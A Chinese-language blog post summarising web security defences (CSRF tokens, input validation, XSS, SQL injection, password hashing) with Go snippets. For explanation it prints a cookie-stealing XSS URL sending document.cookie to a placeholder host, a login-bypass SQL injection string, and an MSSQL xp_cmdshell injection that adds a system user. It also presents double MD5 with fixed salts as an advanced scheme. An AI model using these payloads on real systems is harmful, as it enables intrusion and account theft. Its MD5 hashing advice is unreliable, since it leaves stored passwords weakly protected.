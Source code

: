 ```yaml
---
layout: post
title: 在Web application 中基本的安全防范小结
date:   2017-05-22 18:00:06
categories: Web
image: /assets/images/post.jpg
---
```


##### CSRF攻击

CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。

> 那么CSRF到底能够干嘛呢？你可以这样简单的理解：攻击者可以盗用你的登陆信息，以你的身份模拟发送各种请求。攻击者只要借助少许的社会工程学的诡计，例如通过QQ等聊天软件发送的链接(有些还伪装成短域名，用户无法分辨)，攻击者就能迫使Web应用的用户去执行攻击者预设的操作。例如，当用户登录网络银行去查看其存款余额，在他没有退出时，就点击了一个QQ好友发来的链接，那么该用户银行帐户中的资金就有可能被转移到攻击者指定的帐户中。

CSRF攻击示意图：

![CSRF攻击示意图]( /assets/images/web-safe/csrf.png "Optional title")

CSRF攻击步骤：

1. 登入正常的网站A,并在本地保存了Cookie
2. 在不退出A的情况下,访问了危险网站B（比如点击了小广告）

> CSRF攻击主要是因为Web的隐式身份验证机制，Web的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的。

预防：

>1、正确使用GET,POST和Cookie；

>2、在非GET请求中增加伪随机数, 比如随机token；

```go
生成随机数token

h := md5.New()
io.WriteString(h, strconv.FormatInt(crutime, 10))
io.WriteString(h, "ganraomaxxxxxxxxx")
token := fmt.Sprintf("%x", h.Sum(nil))
t, _ := template.ParseFiles("login.gtpl")
t.Execute(w, token)

输出token

<input type="hidden" name="token" value="{{.}}">

验证token

r.ParseForm()
	token := r.Form.Get("token")
	if token != "" {
		//验证token的合法性
	} else {
		//不存在token报错
	}
```

##### 输入验证

过滤用户输入数据，验证数据的合法性，是一个重要的过程。能够在一定程度上，避免恶意数据在程序中被误用。

三个步骤：

>1、识别数据，搞清楚需要过滤的数据来自于哪里

>2、过滤数据，弄明白我们需要什么样的数据

>3、区分已过滤及被污染数据，如果存在攻击数据那么保证过滤之后可以让我们使用更安全的数据

输入数据来自哪里？

1. 表单提交时的参数

2. 接口传递的json参数

3. 参数在url中

4. 参数在http 的Header中

进行验证。验证数据的有效性，可以简单的验证，也可以根据自己的规则而验证。

在`<Grape>`框架中，在controller　层做了验证的DSL语法的验证。`<Rails>`的框架，还可以在model层做验证。

这里建议，如果可以在controller 做验证，最好先做，再继续在model层做相关验证。通过两重的验证，基本可以保证数据的有效性。

##### XXS攻击

> 动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。
XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

```
XSS目前主要的手段和目的如下：

盗用cookie，获取敏感信息。
利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果
```

XSS的原理

> Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因

例子(来自　https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md):

接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：http://127.0.0.1/?name=astaxie，就会在浏览器输出如下信息：

```
hello astaxie

如果我们传递这样的url：http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。你也许会说，这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

```

如何预防XSS

不要相信用户的任何输入的内容，并过滤掉输入中的所有特殊字符比如<script> <a>这样的标签。如果不过滤或清洁这样的标签，当浏览器
在渲染这样的字符串数据的时候，就会调用<script>中的代码，但是，这个代码并不是我们希望执行的。可能你的网站就被莫名奇妙的alert弹框，字体颜色被改。
或其他更危险的javascript的操作

过滤特殊字符

避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：

text/template包下面的HTMLEscapeString、JSEscapeString等函数

在Rails 开发中，如果要渲染有嫌疑的html字符串，使用`<sanitize>`方法继续过滤。　对返回的数据进行， sanitize @post.content，　或对 可以自定义的url 进行　sanitize

使用HTTP头指定类型

```
`w.Header().Set("Content-Type","text/javascript")`

这样就可以让浏览器解析javascript代码，而不会是html输出。
```

HttpOnly 设为true, 防止通过javascript脚本的方式获取得到Cookie

XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。


##### SQL注入

> SQL注入攻击（SQL Injection），简称注入攻击，是Web开发中最常见的一种安全漏洞。可以用它来从数据库获取敏感信息，或者利用数据库的特性执行添加用户，导出文件等一系列恶意操作，甚至有可能获取数据库乃至系统用户最高权限。
通造成SQL注入的原因是因为程序没有有效过滤用户的输入，使攻击者成功的向服务器提交恶意的SQL查询代码，程序在接收后错误的将攻击者的输入作为查询语句的一部分执行，导致原始的查询逻辑被改变，额外的执行了攻击者精心构造的恶意代码。

例子来自于：　https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.4.md

```
<form action="/login" method="POST">
	<p>Username: <input type="text" name="username" /></p>
	<p>Password: <input type="password" name="password" /></p>
	<p><input type="submit" value="登陆" /></p>
</form>

username:=r.Form.Get("username")
password:=r.Form.Get("password")
sql:="SELECT * FROM user WHERE username='"+username+"' AND password='"+password+"'"

如果用户的输入的用户名如下，密码任意
  myuser' or 'foo' = 'foo' --
那么我们的SQL变成了如下所示：
  SELECT * FROM user WHERE username='myuser' or 'foo' = 'foo' --'' AND password='xxx'

在SQL里面--是注释标记，所以查询语句会在此中断。这就让攻击者在不知道任何合法用户名和密码的情况下成功登录了

对于MSSQL还有更加危险的一种SQL注入，就是控制系统，下面这个可怕的例子将演示如何在某些版本的MSSQL数据库上执行系统命令。
  sql:="SELECT * FROM products WHERE name LIKE '%"+prod+"%'"
	Db.Exec(sql)
如果攻击提交a%' exec master..xp_cmdshell 'net user test testpass /ADD' --作为变量 prod的值，那么sql将会变成
  sql:="SELECT * FROM products WHERE name LIKE '%a%' exec master..xp_cmdshell 'net user test testpass /ADD'--%'"
MSSQL服务器会执行这条SQL语句，包括它后面那个用于向系统添加新用户的命令。如果这个程序是以sa运行而 MSSQLSERVER服务又有足够的权限的话，攻击者就可以获得一个系统帐号来访问主机了。
```

如何预防SQL注入

1. 控制数据库的操作权限

2. 检查输入的数据是否具有所期望的数据格式，严格限制变量的类型，例如使用regexp包进行一些匹配处理，或者使用strconv包对字符串转化成其他基本类型的数据进行判断。

3. 对进入数据库的特殊字符（'"\尖括号&*;等）进行转义处理，或编码转换。Go 的text/template包里面的HTMLEscapeString函数可以对字符串进行转义处理。

4. 不要直接拼接SQL语句, 对查询语句输入的前端提交传递过来的参数进行清洁过滤

##### 存储密码

简单的方案

在数据库中，使用单向哈希后存储，单向哈希算法有一个特征：无法通过哈希后的摘要(digest)恢复原始数据，这也是“单向”二字的来源。常用的单向哈希算法包括SHA-256, SHA-1, MD5等。

```go
import "crypto/sha256"

h := sha256.New()
io.WriteString(h, "His money is twice tainted: 'taint yours and 'taint mine.")
fmt.Printf("% x", h.Sum(nil))

import "crypto/sha1"
h := sha1.New()
io.WriteString(h, "His money is twice tainted: 'taint yours and 'taint mine.")
fmt.Printf("% x", h.Sum(nil))

import "crypto/md5"
h := md5.New()
io.WriteString(h, "需要加密的密码")
fmt.Printf("%x", h.Sum(nil))
```

+ 同一个密码进行单向哈希，得到的总是唯一确定的摘要。
+ 计算速度快。随着技术进步，一秒钟能够完成数十亿次单向哈希计算。

结合上面两个特点，考虑到多数人所使用的密码为常见的组合，攻击者可以将所有密码的常见组合进行单向哈希，得到一个摘要组合, 然后与数据库中的摘要进行比对即可获得对应的密码。这个摘要组合也被称为rainbow table。

因此通过单向加密之后存储的数据，和明文存储没有多大区别。因此，一旦网站的数据库泄露，使用暴力破解碰撞匹配，真实的密码就会被得到。

进阶的方案

自己设计一个哈希算法。一个好的哈希算法是很难设计的——既要避免碰撞，又不能有明显的规律，做到这两点要比想象中的要困难很多。因此实际应用中更多的是利用已有的哈希算法`<进行多次哈希>`，并且给密码进行`<加盐salt>`处理。

通常的做法是，先将用户输入的密码进行一次MD5（或其它哈希算法）加密；将得到的 MD5 值前后加上一些只有管理员自己知道的随机串，再进行一次MD5加密。这个随机串中可以包括某些固定的串，也可以包括用户名（用来保证每个用户加密使用的密钥都不一样）

```go

import "crypto/md5"
//假设用户名abc，密码123456
h := md5.New()
io.WriteString(h, "需要加密的密码")

//pwmd5等于e10adc3949ba59abbe56e057f20f883e
pwmd5 :=fmt.Sprintf("%x", h.Sum(nil))

//指定两个 salt： salt1 = @#$%   salt2 = ^&*()
salt1 := "@#$%"
salt2 := "^&*()"

//salt1+用户名+salt2+MD5拼接
io.WriteString(h, salt1)
io.WriteString(h, "abc")
io.WriteString(h, salt2)
io.WriteString(h, pwmd5)

last :=fmt.Sprintf("%x", h.Sum(nil))
```

##### 专家方案

使用`<scrypt>` 方案.这类方案有一个特点，算法中都有个因子，用于指明计算密码摘要所需要的资源和时间，也就是计算强度。计算强度越大，攻击者建立rainbow table越困难，以至于不可继续。scrypt是由著名的FreeBSD黑客Colin Percival为他的备份服务Tarsnap开发的。

```go
dk := scrypt.Key([]byte("some password"), []byte(salt), 16384, 8, 1, 32)
```














参考连接：　https://github.com/astaxie/build-web-application-with-golang　
